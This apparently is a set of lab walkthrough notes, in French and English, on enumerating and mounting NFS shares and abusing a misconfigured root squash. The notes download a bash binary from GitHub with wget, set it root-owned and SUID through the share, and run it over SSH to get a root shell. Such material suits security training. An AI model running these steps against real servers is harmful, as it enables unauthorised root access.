 # Network File System

Allows to share file and directories over the internet  
Available with Windows or Unix OS  
It uses Mounting and file handle 


### List shares
```bash
showmount -e [Target-IP] 
```

### Mounting NFS shares

***Example : ***
Your client’s system needs a directory where all the content shared by the host server in the export folder can be accessed. You can create this folder anywhere on your system. Once you've created this mount point, you can use the "mount" command to connect the NFS share to the mount point on your machine like so:

```bash
sudo mount -t nfs [Target-IP]:/share/directory /tmp/mount/ -nolock
```


|Tag	| Function |
|:------|----------|
|sudo	|Run as root|
|mount	|Execute the mount command|
|-t nfs	|Type of device to mount, then specifying that it's NFS|
|IP:share	|The IP Address of the NFS server, and the name of the share we wish to mount|
|-nolock	|Specifies not to use NLM locking|








fichier bash pour le root shell :
```bash
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash.
```

### Mapped Out Pathway:

If this is still hard to follow, here's a step by step of the actions we're taking, and how they all tie together to allow us to gain a root shell:


- NFS Access

    - Gain Low Privilege Shell

        - Upload Bash Executable to the NFS share

            - Set SUID Permissions Through NFS Due To Misconfigured Root Squash

                - Login through SSH

                    - Execute SUID Bit Bash Executable

                        - ROOT ACCESS

Lets do this! Get root access

1. : On télécharge le fichier bash et on le déplace à l'endroit du partage 
2. : on set les permissions de root : sudo chown root bash
3. : On set les permissions de SUID : sudo chmod +s bash		et ->  sudo chmod +x bash
4. : on log avec le ssh qu'on à trouvé avant et on execute le fichier avec ./bash -p
le -p permet de ne pas perdre les permissions de temps en temps

### Let's try

1. First, change directory to the mount point on your machine, where the NFS share should still be mounted, and then into the user's home directory.


2. Download the bash executable to your Downloads directory. Then use "cp ~/Downloads/bash ." to copy the bash executable to the NFS share. The copied bash shell must be owned by a root user, you can set this using "sudo chown root bash"


3. Now, we're going to add the SUID bit permission to the bash executable we just copied to the share using "sudo chmod +[permission] bash". What letter do we use to set the SUID bit set using chmod?


4. Let's do a sanity check, let's check the permissions of the "bash" executable using "ls -la bash". What does the permission set look like? Make sure that it ends with -sr-x.

5. Now, SSH into the machine as the user. List the directory to make sure the bash executable is there. Now, the moment of truth. Lets run it with "./bash -p". The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.


5. Great! If all's gone well you should have a shell as root!





